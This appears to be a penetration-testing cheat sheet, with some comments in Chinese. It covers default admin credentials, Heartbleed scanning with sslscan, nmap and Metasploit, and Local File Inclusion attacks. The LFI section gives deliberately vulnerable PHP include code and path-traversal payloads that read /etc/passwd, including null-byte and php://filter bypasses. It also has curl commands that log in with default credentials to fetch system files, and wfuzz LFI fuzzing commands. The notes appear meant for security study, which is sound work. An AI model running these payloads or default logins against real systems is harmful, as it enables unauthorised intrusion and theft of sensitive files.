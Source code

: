 ```bash
admin:admin
admin:123456
admin:password
admin:changeme

```

## ssl heartbleed
+ 1.0.1-1.0.1f vulnerable
+ 1.0.1g  not vulnerable
+ 1.0.0, 0.9.8 not vulnerable

```bash
#heartbleed 检测
sudo sslscan 192.168.3.2:443
nmap -sV --script=ssl-heartbleed 192.168.3.2

use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```

## Local File Include
+ Local File Inclusion;
+ read the sensitive file, eg. ssh keyfile, service config file, log file
+ LFI fuzz list, seclist/linux/windows list;
+ LFI log file rce, phpinfo rce
+ try to upload file via other service, smtp/smb/ftp
+ [hacktricks lfi](https://book.hacktricks.xyz/pentesting-web/file-inclusion), [total oscp guide - LFI](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)
+ 

```bash
$file = $_GET['page'];
require($file);

$file = $_GET['page'];
require($file . ".php");   //后缀验证

# exploit 1，获取password
http://example.com/page=../../../../../../etc/passwd
http://example.com/page=../../../../../../etc/passwd%00  //添加%00绕过，php5.3可用
http://example.com/page=../../../../../../etc/passwd？   // 问号绕过

# base64 绕过  读取php文件
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# linux，保存cookie到文件命令获取敏感信息
curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile

## wfuzz  参数
wfuzz -c -b 'PHPSESSID=pbot4qdjvsfkr9agdqgu8vpu5i' --hl 50  -w /usr/share/wfuzz/wordlist/general/common.txt http://$tip/manage.php?FUZZ=../../../../../../../../etc/passwd

## wfuzz linux file. 
wfuzz --hl 0 -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  -u http://$tip/xxx.php?ajax_path=FUZZ

## wfuzz list
```